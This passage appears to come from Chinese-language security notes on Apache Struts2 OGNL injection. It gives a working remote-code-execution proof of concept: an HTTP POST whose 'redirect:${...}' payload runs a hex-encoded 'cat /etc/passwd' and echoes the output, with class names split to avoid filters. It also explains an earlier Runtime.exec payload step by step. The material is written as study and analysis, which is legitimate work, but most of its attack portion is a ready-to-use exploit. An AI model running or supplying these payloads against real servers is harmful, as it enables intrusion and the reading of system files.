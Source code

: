    1. `('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')` 这部分的作用是执行命令 `touch /tmp/success`。这里 `%5cu0023rt` 是一个变量，它将在下一步被赋值。`exec` 是 `java.lang.Runtime` 类的一个方法，用于执行系统命令。参数是一个字符串数组，这里使用了 `split("@")` 方法将 `"touch@/tmp/success"` 字符串分割成数组。
   2. `(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime())` 这部分的作用是获取 Java 的运行时环境，并将其赋值给 `#rt` 变量。`@java.lang.Runtime@getRuntime()` 是 OGNL 表达式，它使用 `@` 符号调用了静态方法 `java.lang.Runtime.getRuntime()`，该方法返回当前 Java 应用的运行时环境。

   至于前面的 `(asdf)`，这是一个无效的表达式，它并没有实际的作用，只是增加了 payload 的混淆程度。

   `=1` 这部分也并没有实际的功能。在一个典型的 HTTP GET 请求中，参数是以键值对的形式存在的，如 `key=value`，而 `=1` 就符合这种格式。

   总的来说，这段 payload 的实际效果是：首先获取 Java 的运行时环境，然后利用这个运行时环境执行命令 `touch /tmp/success`，创建一个名为 `success` 的文件在 `/tmp` 目录下。

----

执行任意命令POC(有回显，将需要执行的命令进行urlencode编码) :

```http
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: 192.168.1.215:8081
Content-Length: 626

redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}

```

![image-20230608152737120](http://cdn.ayusummer233.top/DailyNotes/202309141817044.png)

在 Struts2 中，`redirect:` 是一个特殊的跳转标记，用于指示请求的处理结果需要进行重定向。`${}` 是一种用于表达式求值的语法。它可以用于获取、设置和操作请求中的属性值, 通过在 `${...}` 中嵌入恶意代码，攻击者可以执行任意的 Java 代码

在这个 payload 中，通过将 `redirect:` 设置为 `redirect:${...}`，实际上是在请求中使用了一个自定义的跳转路径，并在跳转路径中嵌入了恶意代码。

```java
%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),

%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),

%23str%3d%23s.hasNext()?%23s.next():%27%27,

%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),

%23resp.setCharacterEncoding(%27UTF-8%27),

%23resp.getWriter().println(%23str),

%23resp.getWriter().flush(),%23resp.getWriter().close()
```
